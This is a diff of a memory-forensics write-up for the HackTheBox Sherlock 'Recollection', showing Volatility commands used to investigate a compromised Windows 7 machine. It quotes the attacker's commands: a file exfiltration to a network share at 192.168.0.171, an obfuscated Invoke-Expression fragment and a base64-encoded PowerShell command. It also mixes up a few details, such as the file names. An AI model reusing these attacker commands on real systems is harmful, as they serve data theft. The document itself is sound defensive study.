

Before and after one commit to abubakar-shahid/HackTheBox-Sherlocks-Writeups, a Markdown page: Recollection/Recollection.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Recollection/Recollection.md
+++ b/Recollection/Recollection.md
@@ -1,24 +1,55 @@
-# First of all, the tool we need in this task is Volatility. Install both Volatility2 as well as Volatility3, because there are some tasks in which we have to run some commands that are not available in Volatility2. The command for Volatility2 will start with "vol.py" and that of Volatility3 will start with "vol".
+# Recollection
 
-1. Since we had to figure out the operating system's information, we will use the command of imageinfo [vol.py -f recollection.bin imageinfo]. This will return some information inwhich we can see a header of [Suggested Profile(s)] where the very first field represents our system profile [Win7SP1x64]. Hence, the answer is [Windows 7].
+## Challenge Information
+- **Challenge Name**: Recollection
+- **Category**: Memory Analysis
+- **Difficulty Level**: Easy
 
-2. Under the same information, we can clearly see the time of creation of this dump [2022-12-19 16:07:30].
+## Initial Setup
+First of all, the tool we need in this task is Volatility. Install both Volatility2 as well as Volatility3, because there are some tasks in which we have to run some commands that are not available in Volatility2. The command for Volatility2 will start with `vol.py` and that of Volatility3 will start with `vol`.
 
-3. Since we want to get the copied data and we know that the copied data is in clipboard, so the command [vol.py -f recollection.bin --profile=Win7SP1x64 clipboard] gave us some information in which we can see the only present data [(gv '*MDR*').naMe[3,11,2]-joIN''].
+## Investigation Steps
 
-4. Now our some upcoming tasks are related to the commands that the attacker executed. So, we will run the command that will show us consoles [vol.py -f recollection.bin --profile=Win7SP1x64 consoles]. This will return some data, which I have also saved in the data.txt file. Here when we see the shell of task-3 executed, there is a word [iex] in the very next line of that shell. This refers to the cmdlet name [Invoke-Expression].
+1. Since we had to figure out the operating system's information, we will use the command of imageinfo:
+```bash
+vol.py -f recollection.bin imageinfo
+```
+This will return some information inwhich we can see a header of `Suggested Profile(s)` where the very first field represents our system profile `Win7SP1x64`. Hence, the answer is `Windows 7`.
 
-5. Since our concern is with exfiltration of a file, so most probably this would be some sensitive file. Analyzing all the commands that were there, we can see a command being executed on the [Credentials.txt], which is the actual required command [type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt].
+2. Under the same information, we can clearly see the time of creation of this dump `2022-12-19 16:07:30`.
 
-6. If we analyze the results of this command, we can clearly see that there were errors when the attacker tried to execute it. So the answer is [NO].
+3. Since we want to get the copied data and we know that the copied data is in clipboard, so the command:
+```bash
+vol.py -f recollection.bin --profile=Win7SP1x64 clipboard
+```
+This gave us some information in which we can see the only present data `(gv '*MDR*').naMe[3,11,2]-joIN''`.
 
-7. If we see the next command in which the user is trying to run a powershell command, there is some base64 encoded string [ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi]. If we decode it, we will see the what actually the attacker was trying to run [echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"]. So the path of the file is very clear in this command ["C:\Users\Public\Office\readme.txt"]
+4. Now our some upcoming tasks are related to the commands that the attacker executed. So, we will run the command that will show us consoles:
+```bash
+vol.py -f recollection.bin --profile=Win7SP1x64 consoles
+```
+This will return some data, which I have also saved in the data.txt file. Here when we see the shell of task-3 executed, there is a word `iex` in the very next line of that shell. This refers to the cmdlet name `Invoke-Expression`.
 
-8. Since we get to know about the host machine, so lets just take some information of the machine by running the command [vol.py -f recollection.bin --profile=Win7SP1x64 hivelist]. This will give us the addresses of the machines. The address of [\REGISTRY\MACHINE\SYSTEM] can be clearly seen as [0xfffff8a000024010]. Now using this offset, run the command [vol.py -f recollection.bin --profile=Win7SP1x64 printkey -o 0xfffff8a000024010 -K "ControlSet001\Services\Tcpip\Parameters"]. This will give detailed information of this machine, where we can see the username of the machine [user-PC].
+5. Since our concern is with exfiltration of a file, so most probably this would be some sensitive file. Analyzing all the commands that were there, we can see a command being executed on the `Credentials.txt`, which is the actual required command:
+```bash
+type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
+```
 
-9. For the number of users, it is there as [QualifyingDestinationThreshold] which is [3].
+6. If we analyze the results of this command, we can clearly see that there were errors when the attacker tried to execute it. So the answer is `NO`.
 
-10. Since our concern is with the passwords.txt file, so lets just run the command [vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep "passwords.txt"]. This will give us the information of the files of which we have given the grep filter. In our case, there is only one file [\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt].
+7. If we see the next command in which the user is trying to run a powershell command, there is some base64 encoded string `ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi`. If we decode it, we will see the what actually the attacker was trying to run:
+```bash
+echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"
+```
+So the path of the file is very clear in this command `"C:\Users\Public\Office\readme.txt"`
 
-11. Since the executable is named with its hash, and there is only one such file in the data that we also saved in data.txt, [b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1].
+8. Since we get to know about the host machine, so lets just take some information of the machine by running the command:
+```bash
+vol.py -f recollection.bin --profile=Win7SP1x64 hivelist
+```
+This will give us the addresses of the machines. The address of `\REGISTRY\MACHINE\SYSTEM` can be clearly seen as `0xfffff8a000024010`. Now using this offset, run the command:
+```bash
+vol.py -f recollection.bin --profile=Win7SP1x64 printkey -o 0xfffff8a000024010 -K "ControlSet001\Services\Tcpip\Parameters"
+```
+This will give detailed information of this machine, where we can see the username of the machine `user-PC`.
 
````
Also changed, not shown: other parts of Recollection/Recollection.md (+55 -10 lines).
